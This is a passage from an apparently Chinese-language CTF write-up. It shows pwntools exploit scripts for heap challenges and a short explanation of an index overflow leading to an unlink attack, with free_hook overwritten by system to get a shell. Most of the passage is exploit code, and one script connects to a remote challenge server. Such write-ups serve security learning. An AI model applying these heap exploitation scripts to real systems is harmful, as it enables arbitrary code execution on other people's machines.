 ```python


def delete(idx):
    sl('3')
    ru('Index:')
    sl(str(idx))
    ru('choice:')


add(0x68,'aaa\n')
add(0x68,'aaa\n')
add(0x68,'aaa\n')
add(0xf8,'bbb\n')
add(0x68,'cc\n')
edit(2,0x69,(p64(0)+p64(0x61)+p64(0x6020d0+-0x18)+p64(0x6020d0-0x10)).ljust(0x60,'\0')+p64(0x60)+'\0')
delete(3)
edit(2,0x10,'\0'*8+p64(0x602088))
edit(0,0x8,'aaaa\n')
sl('2019')


p.interactive()
```

### 西来

题目关了fastbin，然后用一个变量限制了malloc的size，但是在delete的时候有一个下标溢出，可以伪造一个chunk在name和desc那里，之后可以控制is_root变量，然后可以malloc的size就变大了，然后直接unlink attack，就有任意地址读写
然后写free_hook为system，直接get shell

payload如下

```python
from pwn import *

debug=0

context.log_level='debug'

if debug:
    #p=process('./pwn12')
    p=process('./pwn12',env={'LD_PRELOAD':'./libc-2.23.so'})
    gdb.attach(p)
else:
    p=remote('111.33.164.6', 50012)

def ru(x):
    return p.recvuntil(x)

def se(x):
    p.send(x)

def sl(x):
    p.sendline(x)

def add(sz):
    sl('1')
    ru('Size?')
    sl(str(sz))
    ru('5.Exit')

def edit(idx,content):
    sl('2')
```